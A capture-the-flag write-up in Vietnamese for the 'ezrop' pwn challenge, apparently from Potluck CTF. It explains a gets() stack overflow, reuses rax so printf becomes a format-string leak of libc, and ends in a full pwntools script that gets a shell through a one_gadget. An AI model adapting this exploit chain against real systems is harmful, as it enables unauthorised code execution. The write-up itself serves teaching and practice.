 # ezrop
- 1 chall thật sự hay và mình khá bất ngờ vs cách giải nó

## ida

- main

```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ignore_me(argc, argv, envp);
  return vuln();
}
```
- vuln

```c 
__int64 vuln()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("Enter your name: ");
  return gets(v1);
}
```

## Analysis
- nhìn thì có vẻ đơn giản nhỉ, nma check ROPgadget thì ko có pop rdi, chỉ có pop rbp thôi
- hmm khả năng cao là ta sẽ giải bằng FSOP, nma ở đây ko có puts mà chỉ có printf, khá khó khăn đây
- theo như mình đoán thì FSOP hàm puts vs hàm printf sẽ giống nhau, nma cách này khá khó khăn nên mình chuyển hướng khác
- debug chậm lại hàm printf để xem điều thú vị

![image](https://github.com/gookoosss/CTF/assets/128712571/02cce8e3-f551-4f42-85ce-b99bacafdc73)

![image](https://github.com/gookoosss/CTF/assets/128712571/ff65cf9c-a8c9-41c7-b62b-4193e0291a1f)


- như ta đã thấy thì printf sẽ in ra data mà con trỏ rdi trỏ đến , mà rdi được set bằng rax (mov rdi, rax)
- hmm nếu vậy thì khi ta thay đổi thằng rax thì cũng sẽ thay đổi rdi
- hàm gets sẽ lưu data nhập vào lên rax, , lợi dụng điều này ta có thể có FMT ở hàm printf sau

## Exploit
- đầu tiên ta dùng BOF để chạy lại hàm vuln, nma ta sẽ vào vuln+19 để rax ko thay đổi khi ta gets
- lúc này ta nhớ set rbp thành rw_section

![image](https://github.com/gookoosss/CTF/assets/128712571/9c2528b9-7809-4e38-89a3-60cf18e51d64)


- bây giờ ta có thể leak được libc bằng FMT
- có được libc rồi thì dùng one_gadget để lấy shell thôi, nhớ set rbp nha

![image](https://github.com/gookoosss/CTF/assets/128712571/e19971e9-d851-4d07-ad1a-b2567de4fea2)


## Script 
```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./ezrop_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe

p = process([exe.path])
gdb.attach(p, gdbscript = '''
b*0x00000000004011f6
b*0x0000000000401207
b*0x40120c
c
''')

input()

# p = remote('challenge19.play.potluckctf.com', 31337)
rw_section = 0x404400

payload = b'%9$p'
payload = payload.ljust(32)
payload += p64(rw_section)
payload += p64(exe.sym.vuln + 19)

p.sendline(payload)
p.recvuntil(b'Enter your name: ')
leak_libc = int(p.recv(14), 16)
libc.address = leak_libc - 0x29d90
print(hex(libc.address))
pop_rbp = 0x40115D

# pop_rdi = ROP(libc).find_gadget(["pop rdi","ret"])[0]
# rop = [pop_rdi+1,pop_rdi,next(libc.search(b"/bin/sh\0")),libc.sym.system]
# rop = b"".join([p64(i) for i in rop])
# payload = b'a'*32 + p64(rw_section) + rop 

payload = flat(
    [
        b"\x00"*0x28,
        pop_rbp,
        rw_section,
        libc.address + 0xebcf1, # one gadget
    ]
)

p.sendline(payload)


p.interactive()

```
